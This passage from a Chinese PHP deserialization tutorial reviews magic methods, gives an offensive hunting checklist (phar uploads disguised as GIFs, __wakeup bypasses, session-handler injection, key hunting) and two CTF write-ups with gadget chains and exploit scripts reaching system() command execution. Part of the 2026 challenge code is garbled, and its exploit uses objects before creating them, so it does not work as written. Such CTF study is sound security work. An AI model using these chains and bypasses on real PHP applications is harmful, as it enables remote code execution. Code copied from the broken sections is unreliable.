    // 初始化代码
}
```

**详细格式说明**

1. 访问修饰符（必须）
   - `public` - 最常用，构造函数通常需要公开访问
2. 方法关键字（必须）
   - `function` 关键字声明这是一个方法
3. 方法名（必须）
   - **必须精确为** `__construct`
   - 区分大小写
   - 以双下划线开头


### __destruct() 

- **作用**：析构函数，在对象被销毁时自动调用。用于清理资源，如关闭文件、断开数据库连接、保存状态等
- **触发时机**：对象的所有引用都被删除时，或脚本执行结束时(php反序列的入口)
- **参数**：无
- **在类中的声明格式**：

**基本语法格式**

```
public function __destruct() {
    // 清理代码
}
```

**详细格式说明**

1. **访问修饰符（通常为 public）**
   - `public` - 最常用，析构函数需要能被系统调用
   - **注：在PHP 8.0+中**，`__destruct()` **可以是** `private` **或** `protected`
2. **方法关键字（必须）**
   - `function` 关键字声明这是一个方法

3.**方法名（必须）**

- **必须精确为** `__destruct`
- 区分大小写
- 以双下划线开头

4.**参数列表（必须为空）**

- **析构函数不能有任何参数**
- 这是与构造函数的重大区别


### 构造函数与析构函数的对比

| 特性     | `__construct` | `__destruct` |
| :------- | :------------ | :----------- |
| 参数     | 可以有参数    | 不能有参数   |
| 调用时机 | 对象创建时    | 对象销毁时   |
| 主要用途 | 初始化资源    | 释放资源     |
| 调用方式 | 显式(`new`)   | 隐式(自动)   |

**特别强调**

- `__construct` 是**最常用**的魔术方法，几乎每个类都会用到
- `__destruct` 的调用时机**不是绝对确定的**，它依赖于 PHP 的垃圾回收机制
- 这两个方法构成了对象的**完整生命周期**
- 它们体现了 **RAII（资源获取即初始化）** 的设计理念


###  __get($name)

- **作用**：在读取一个**不可访问的（inaccessible）** 属性时被自动调用。不可访问包括：`private `/ `protected` 权限的属性，或者**根本不存在**的属性
- **触发时机**：`echo $abc->undefinedProperty;` 或 `$value = $abc->privateProperty;`
- **参数**：一个参数 `$name`，即你想要读取的属性名
- **在类中的声明格式**：

**基本语法格式**

```php
public function __get($name) {
    // 属性读取处理代码
}
```

**详细格式说明**

1. 访问修饰符（必须）
   - 必须为 `public`
2. 方法关键字（必须）
   - `function` 关键字声明这是一个方法
3. 方法名（必须）
   - **必须精确为** `__get`
   - 区分大小写
   - 以双下划线开头
4. 参数列表（必须有一个参数）
   - `$name`：要访问的属性名称
5. 返回值
   - 应该返回属性值或进行相应处理


###  __set($name, $value)

- **作用**：在给一个**不可访问**的属性**赋值**时被自动调用
- **触发时机**：`$abc->undefinedProperty = 'value';`
- **参数**：两个参数，`$name`（属性名）和 `$value`（要赋的值）
- **在类中的声明格式**：

**基本语法格式**

```php
public function __set($name, $value) {
    // 属性设置处理代码
}
```

**详细格式说明**

1. 访问修饰符（必须）
   - 必须为 `public`
2. 方法关键字（必须）
   - `function` 关键字声明这是一个方法
3. 方法名（必须）
   - **必须精确为** `__set`
   - 区分大小写
   - 以双下划线开头
4. 参数列表（必须有两个参数）
   - `$name`：要设置的属性名称
   - `$value`：要设置的属性值
5. 返回值
   - 通常没有返回值


### __isset($name)

- **作用**：当对**不可访问的**属性调用 `isset()` 或 `empty()` 函数时被调用
- **触发时机**：`isset($abc->dynamicProperty)` 或 `empty($abc->dynamicProperty)`
- **参数**：一个参数 `$name`
- **在类中的声明格式**：

**基本语法格式**

```php
public function __isset($name) {
    // 属性存在性检查代码
}
```

**详细格式说明**

1. 访问修饰符（必须）
   - 必须为 `public`
2. 方法关键字（必须）
   - `function` 关键字声明这是一个方法
3. 方法名（必须）
   - **必须精确为** `__isset`
   - 区分大小写
   - 以双下划线开头
4. 参数列表（必须有一个参数）
   - `$name`：要检查的属性名称
5. 返回值
   - 必须返回布尔值（true 或 false）


### __unset($name)

- **作用**：当对**不可访问的**属性调用 `unset()` 函数时被调用
- **触发时机**：`unset($abc->dynamicProperty)`
- **参数**：一个参数 `$name`
- **在类中的声明格式**：

**基本语法格式**

```php
public function __unset($name) {
    // 属性删除处理代码
}
```

**详细格式说明**

1. 访问修饰符（必须）
   - 必须为 `public`
2. 方法关键字（必须）
   - `function` 关键字声明这是一个方法
3. 方法名（必须）
   - **必须精确为** `__unset`
   - 区分大小写
   - 以双下划线开头
4. 参数列表（必须有一个参数）
   - `$name`：要删除的属性名称
5. 返回值
   - 通常没有返回值


### __call($name, $arguments)

- **作用**：在对象中调用一个**不可访问的（不存在或无权访问）的普通方法（非静态）** 时触发
- **触发时机**：`$abc->undefinedMethod($arg1, $arg2);`
- **参数**：`$name`（方法名）和 `$arguments`（一个包含所有参数的数组）
- **在类中的声明格式**：

**基本语法格式**

```php
public function __call($name, $arguments) {
    // 动态方法调用处理代码
}
```

**详细格式说明**

1. 访问修饰符（必须）
   - 必须为 `public`
2. 方法关键字（必须）
   - `function` 关键字声明这是一个方法
3. 方法名（必须）
   - **必须精确为** `__call`
   - 区分大小写
   - 以双下划线开头
4. 参数列表（必须有两个参数）
   - `$name`：要调用的方法名称（字符串）
   - `$arguments`：传递给方法的参数数组
5. 返回值
   - 可以返回任何类型的值，取决于实现逻辑


### __callStatic($name, $arguments)

- **作用**：在静态上下文中调用一个**不可访问的方法**时触发。它是 `__call` 的静态版本
- **触发时机**：`MyClass::undefinedStaticMethod($arg1);`
- **参数**：与 `__call` 相同
- **在类中的声明格式**：

**基本语法格式**

```php
public static function __callStatic($name, $arguments) {
    // 静态动态方法调用处理代码
}
```

**详细格式说明**

1. 访问修饰符（必须）
   - 必须为 `public`
2. 方法关键字（必须）
   - `function` 关键字声明这是一个方法
3. 方法名（必须）
   - **必须精确为** `__callStatic`
   - 区分大小写
   - 以双下划线开头
4. 参数列表（必须有两个参数）
   - `$name`：要调用的静态方法名称（字符串）
   - `$arguments`：传递给静态方法的参数数组
5. 返回值
   - 可以返回任何类型的值，取决于实现逻辑


### __toString()

- **作用**：决定当对象被当作字符串来处理时应如何表现。**此方法必须返回一个字符串**
- **触发时机**：`echo $abc;`、`print $abc;`、`$str = (string)$abc;`
- **参数**：无
- **在类中的声明格式**：

**基本语法格式**

```php
public function __toString() {
    // 返回对象的字符串表示
}
```

**详细格式说明**

1. 访问修饰符（必须）
   - 必须为 `public`
2. 方法关键字（必须）
   - `function` 关键字声明这是一个方法
3. 方法名（必须）
   - **必须精确为** `__toString`
   - 区分大小写
   - 以双下划线开头
4. 参数列表（必须为空）
   - 不接受任何参数
5. 返回值
   - **必须返回字符串**


### __invoke(…$arguments)

- **作用**：让一个对象可以像函数一样被“调用”。这是非常强大且有趣的一个特性
- **触发时机**：`$abc($arg1, $arg2);`
- **参数**：可以接受任意参数，就像普通函数一样
- **在类中的声明格式**：

**基本语法格式**

```php
public function __invoke(...$arguments) {
    // 对象作为函数调用的处理逻辑
}
```

**详细格式说明**

1. **访问修饰符（必须）**
   - 必须为 `public`
2. **方法关键字（必须）**
   - `function` 关键字声明这是一个方法
3. **方法名（必须）**
   - **必须精确为** `__invoke`
   - 区分大小写
   - 以双下划线开头
4. **参数列表（灵活的参数）**
   - 使用可变参数 `...$arguments` 接受任意数量的参数
   - 也可以定义具体参数：`public function __invoke($param1, $param2) { }`
5. **返回值**
   - 可以返回任何类型的值


### __sleep()

- **作用**：在对象被 `serialize()` 时自动调用。它应该返回一个包含所有应被序列化的属性名的数组。常用于清理资源或只序列化必要的属性
- **触发时机**：`$serialized = serialize($obj);`
- **参数**：无
- **在类中的声明格式**：

**基本语法格式**

```php
public function __sleep() {
    // 返回需要序列化的属性名数组
}
```

**详细格式说明**

1. 访问修饰符（必须）
   - 必须为 `public`
2. 方法关键字（必须）
   - `function` 关键字声明这是一个方法
3. 方法名（必须）
   - **必须精确为** `__sleep`
   - 区分大小写
   - 以双下划线开头
4. 参数列表（必须为空）
   - 不接受任何参数
5. 返回值
   - **必须返回数组**，包含需要被序列化的属性名称


### __wakeup()

- **作用**：在对象被 `unserialize()` 时自动调用。用于重新建立序列化时可能丢失的资源连接，或执行其他初始化工作
- **触发时机**：`$obj = unserialize($serialized);`
- **参数**：无
- **在类中的声明格式**：

**基本语法格式**

```php
public function __wakeup() {
    // 反序列化后的初始化代码
}
```

**详细格式说明**

1. 访问修饰符（必须）
   - 必须为 `public`
2. 方法关键字（必须）
   - `function` 关键字声明这是一个方法
3. 方法名（必须）
   - **必须精确为** `__wakeup`
   - 区分大小写
   - 以双下划线开头
4. 参数列表（必须为空）
   - 不接受任何参数
5. 返回值
   - 没有返回值


## 手工挖掘 Checklist

阶段一：入口发现

- grep 全站 unserialize / maybe_unserialize / __wakeup
- 排查 cookie / 参数中的 Base64 长串（解码看是否 a: O: 开头）
- 排查数据库序列化字段（订单快照/配置项）+ 是否存在 SQL 注入二阶入口
- 缓存写 *.php 场景（ThinkPHP 系重点）
- XML/SVG/导入文件反序列化点

阶段二：链构造

- grep __destruct/__wakeup 圈定起点类
- grep __toString/__call/__get/__invoke 圈定接力类
- 画属性数据流，找 call_user_func/file 族终点
- 有 composer.lock → 先试 PHPGGC 现成链
- 无 gadget → 评估原生类（Error/SoapClient/SplFileObject）

阶段三：格式处理

- private/protected 属性 → S: + \00 转义
- __wakeup 有校验 → CVE-2016-7124 虚报属性数 / fast-destruct
- 传输被过滤 → O:+4 / 类名大小写 / S: 全串转义
- 加密传输 → 找密钥泄露（.env/git/备份文件）

阶段四：Phar 排查

- 上传点逐个测：GIF89a 桩 + phar 后缀伪装
- grep file_exists/is_dir/getimagesize 等触发函数
- 用户可控路径逐一试 phar:// 前缀
- 内容检测场景 → 压缩 phar（.gz）绕过
- 文件名可控的写入 → filter 链 + phar 组合

阶段五：Session 排查

- 全局搜 ini_set('session.serialize_handler')
- 对比 php.ini / 池配置与代码内处理器是否一致
- 可控 $_SESSION 键名接口 → 注入 |payload
- session.upload_progress.enabled=On → 表单竞争注入

阶段六：验证与取证

- 本地等版本 PHP 沙箱先跑通再打目标
- 命令执行用无害回显（id/whoami/写临时文件）
- 外带验证用 DNSLog，避免触发业务破坏
- 证据截图带 time.is 时间证明
- 清理测试产生的文件/对象，输出复现步骤


## 例题

羊城杯2023

源码:

```
<?php
header("HTTP/1.1 302 found");
header("Location:https://passer-by.com/pacman/");
 
class Pro{
    private $exp;
    private $rce2;
 
    public function __get($name)
    {
        return $this->$rce2=$this->exp[$rce2];
    }
    public  function __toString()
    {
            call_user_func('system', "cat /flag");
     }
}
 
class Yang
{
    public function __call($name, $ary)
    {
        if ($this->key === true || $this->finish1->name) {
            if ($this->finish->finish) {
                call_user_func($this->now[$name], $ary[0]);
            }
        }
    }
    public function ycb()
    {
        $this->now = 0;
        return $this->finish->finish;
    }
    public function __wakeup()
    {
        $this->key = True;
    }
}
class Cheng
{
    private $finish;
    public $name;
    public function __get($value)
    {
 
        return $this->$value = $this->name[$value];
    }
}
class Bei
{
    public function __destruct()
    {
        if ($this->CTF->ycb()) {
            $this->fine->YCB1($this->rce, $this->rce1);
        }
    }
    public function __wakeup()
    {
        $this->key = false;
    }
}
 
function prohib($a){
    $filter = "/system|exec|passthru|shell_exec|popen|proc_open|pcntl_exec|eval|flag/i";
    return preg_replace($filter,'',$a);
}
 
$a = $_POST["CTF"];
if (isset($a)){
  unserialize(prohib($a));
}
?>
```

exp:

```
<?php
class Pro{
    private $exp;
    private $rce2;
 
    public function __get($name)
    {
        return $this->$rce2=$this->exp[$rce2];
    }
    public  function __toString()
    {
        //echo `tac /tmp/catcatf1ag.txt`
        call_user_func('system', "cat /flag");       //   /tmp/catcatf1ag.txt
    }
}
 
class Yang
{
    public function __call($name, $ary)  //2
    {
        if ($this->key === true || $this->finish1->name) {
            if ($this->finish->finish) {
                call_user_func($this->now[$name], $ary[0]);
            }
        }
    }
    public function ycb()
    {
        $this->now = 0;
        return $this->finish->finish;
    }
    public function __wakeup()
    {
        $this->key = True;
    }
}
class Cheng
{
    private $finish;
    public $name;
    public function __get($value)
    {
 
        return $this->$value = $this->name[$value];
    }
}
class Bei
{
    public function __destruct()//1
    {
        if ($this->CTF->ycb()) {
            $this->fine->YCB1($this->rce, $this->rce1);//2
        }
    }
    public function __wakeup()
    {
        $this->key = false;
    }
}
/*
function prohib($a){
    $filter = "/system|exec|passthru|shell_exec|popen|proc_open|pcntl_exec|eval|flag/i";
    return preg_replace($filter,'',$a);
}
*/
 
$aa=new Bei();
$aa->CTF=new Yang();    //if
$aa->CTF->finish->finish=true;
 
 
$aa->fine=new Yang();
$aa->fine->key=true;
$aa->rce='tac /tmp/catcatf1ag.txt';
$aa->rce1='tac /tmp/catcatf1ag.txt';
 
$aa->fine->finish->finish=true;
$aa->fine->now=array('YCB1'=>'syssystemtem');
 
//echo urlencode(serialize($aa));
 
$b=serialize($aa);
echo $b;
 
 
 
//unserialize($b);
 
 
//O:3:"Bei":4:{s:3:"CTF";O:4:"Yang":1:{s:6:"finish";O:8:"stdClass":1:{s:6:"finish";b:1;}}s:4:"fine";O:4:"Yang":3:{s:3:"key";b:1;s:6:"finish";O:8:"stdClass":1:{s:6:"finish";b:1;}s:3:"now";a:1:{s:4:"YCB1";s:6:"syssystemtem";}}s:3:"rce";s:23:"tac /tmp/catcatf1ag.txt";s:4:"rce1";s:23:"tac /tmp/catcatf1ag.txt";}
 
function prohib($aa){
    $filter = "/system|exec|passthru|shell_exec|popen|proc_open|pcntl_exec|eval|flag/i";
    return preg_replace($filter,'',$aa);
}
```


羊城杯2026:

ez_unserialize

源码:

```
<?php

error_reporting(0);
highlight_file(__FILE__);

classA{
public $first;
public $step;
public $next;

publicfunction__construct(){
$this->first = "继续加油！";
    }

publicfunctionstart(){
echo$this->next;
    }
}

classE{
private $you;
public $found;
private $secret = "admin123";

publicfunction__get($name){
if($name === "secret") {
echo"<br>".$name." maybe is here!</br>";
$this->found->check();
        }
    }
}

classF{
public $fifth;
public $step;
public $finalstep;

publicfunctioncheck(){
if(preg_match("/U/",$this->finalstep)) {
echo"仔细想想！";
        }
else {
$this->step = new$this->finalstep();
            ($this->step)();
        }
    }
}

classH{
public $who;
public $are;
public $you;

publicfunction__construct(){
$this->you = "nobody";
    }

publicfunction__destruct(){
$this->who->start();
    }
}

classN{
public $congratulation;
public $yougotit;

publicfunction__call(string $func_name, array $args){
return call_user_func($func_name,$args[0]);
    }
}

classU{
public $almost;
public $there;
public $cmd;

publicfunction__construct(){
$this->there = new N();
$this->cmd = $_POST['cmd'];
    }

publicfunction__invoke(){
return$this->there->system($this->cmd);
    }
}

classV{
public $good;
public $keep;
public $dowhat;
public $go;

publicfunction__toString(){
        $abc = $this->dowhat;
$this->go->$abc;
return"<br>Win!!!</br>";
    }
}

unserialize($_POST['payload']);

?>
```

链子:

```
H::__destruct()
    → A->start()
        → echo $A->next （echo对象，触发 V::__toString()）
            → V::__toString() 里：$this->go->$abc （$abc=secret，访问E对象的secret私有属性）
                → E::__get("secret")
                    → E->found->check() （E->found是F对象，调用F::check()）
                        → F::check()：new $this->finalstep()  finalstep='u' → new U()
                        → ($this->step)() 把U对象当函数调用 → U::__invoke()
                            → U::__invoke()：$this->there->system($this->cmd)
                                → N::__call("system", [$cmd])
                                    → call_user_func('system', $args[0])  ✅ RCE

```

exp:

```
//源码
$h=new H();
$h->who=$a;
$a=new A();
$a->next=$v;
$v=new V();
$v->go=$e;
$v->dowhat="secret";
$e=new E();
$e->found=$f;
$f=new F();
$f->finalstep='u';

$payload=serialize($h);
echo $payload
```

